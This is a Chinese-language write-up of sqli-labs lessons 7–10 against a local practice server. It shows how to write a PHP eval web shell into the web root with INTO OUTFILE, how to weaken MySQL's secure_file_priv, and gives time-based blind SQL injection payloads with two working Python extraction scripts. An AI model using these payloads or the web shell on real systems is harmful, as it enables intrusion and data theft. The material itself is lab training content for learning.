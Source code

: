 ### Less-7
本关的标题是dump into outfile,意思是本关我们利用文件导入的方式进行注入,其实难点在于 猜测SQL语句和寻找网站的绝对路径，太菜了的我连自己本地都打了很久orz,不过也学到这个骚操作
首先通过测试猜源码
```
id')) LIMIT 0,1"
所以
```
?id=1')) or 1=1--+
没有报错
然后可以利用文件导入导出，我一开始试了很久没写进去，找到了大师傅的博客
[https://blog.csdn.net/HHTNAN/article/details/78520511](https://blog.csdn.net/HHTNAN/article/details/78520511),了解到MYSQL数据导出与导入，secure_file_priv参数需要设置
在mysql文件下的my.ini文件的`[mysqld]`写入
```
secure_file_priv=''
```
至于为什么，请参考大师傅的博客
然后就很顺利
```
?id=1')) union select 1,2,3 into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqli-labs-master\\Less-7\\mima.php"--+
```
![](image/31.png)

然后就可以写入一句话木马
```
?id=1')) union select 1,2,'<?php @eval($_post["mima"])?>' into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqli-labs-master\\Less-7\\mima.php"--+
```
![](image/32.png)
### Less-8 
和Less-5居然一样的？盲注脚本都一样,可以参考第五题
[https://kit4y.github.io/2019/04/27/Sqli-Labs-Less-2-6/#more](https://kit4y.github.io/2019/04/27/Sqli-Labs-Less-2-6/#more)

### Less-9
题目叫做GET-Bind-Time based XXX时间盲注，所以专门查看了一下时间盲注和布尔注入的一些基础知识
#### 时间盲注：
时间盲注利用前提条件：
页面上没有显示位，也没有输出SQL语句执行错误信息。 正 确的SQL语句和错误的SQL语句返回页面都一样，但是加入sleep(5)条 件之后，页面的返回速度明显慢了5秒。

时间盲注常用函数：
IF(判断语句,A,B)
如果判断语句为真，则返回A
为假则返回B
一般和布尔盲注语句配合使用：
```
if(ascii(substr(“payload”, 1, 1))=104, sleep(5), 1)
```
如果第一个，号前的语句成立，则页面返回速度慢5秒
不成立，页面立即返回

时间盲注过程：
```
if((select count(schema_name) from information_schema. schemata)=9,sleep(5),1) //判断数据库个数
if((select length(schema_name) from information_schem a.schemata limit 0,1)=18,sleep(5),1)
if((select ascii(substr((select schema_name from info rmation_schema.schemata limit 0,1),1,1)))=105,sleep(5),1)//判断 第一个库第一个字符
```

所以本题先疯狂试探,发现不管咋样都是返回一样的，和铁疙瘩一样，所以就能通过时间盲注
```
?id=1' and sleep(3)%23
```
发现等了3秒钟才响应了
然后和盲注一样玩
```
1' and If(ascii(substr(database(),1,1))>115,1,sleep(5))--+
```
然后通过这个脚本拿到当前数据库的名字
```python
# -*- coding: utf-8 -*-
import requests
import time
url = 'http://localhost/sqli-labs-master/Less-9/?id=1'
def check(payload):
	url_new = url + payload
	time_start = time.time()
	content = requests.get(url=url_new)
	time_end = time.time()
	if time_end - time_start >5:
		return 1
result  = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyz_'
for i in range(1,50):
    flag=0;
    for c in s:
        payload = "'and if(substr(database(),%d,1)='%c',sleep(5),1)--+" % (i,c)
        print("Database name: "+result+" | Payload: "+payload)
        if check(payload):
            flag=1;
            result += c
            break
    if(flag==0):
        print("Over")
        break
    print (result)
```
![](image/33.png)
然后通过这个脚本得到第一个security数据表
```python
# -*- coding: utf-8 -*-
import requests
import time
url = 'http://localhost/sqli-labs-master/Less-9/?id=1'
def check(payload):
	url_new = url + payload
	time_start = time.time()
	content = requests.get(url=url_new)
	time_end = time.time()
	if time_end - time_start >5:
		return 1
result  = ''
panduan = ''
ll=0
s = r'0123456789abcdefghijklmnopqrstuvwxyz'
for i in range(1,100):
    for c in s:
        payload = "'and if(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),%d,1)='%c',sleep(5),1)--+" % (i,c)
        print("Table_name name: "+result+" | Payload: "+payload)
        if check(payload):
            result += c
            break
    if ll==len(result):
    	print ('table_name:  '+result)
        break
    ll = len(result)
    print (result)
```
![](image/34.png)
### Less-10
和第九题一样 , 将单引号换成双引号就好了
```
?id=1" and sleep(1)%23
```
脚本和图九差不多只要修改一下闭合的单引号换成双引号

更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)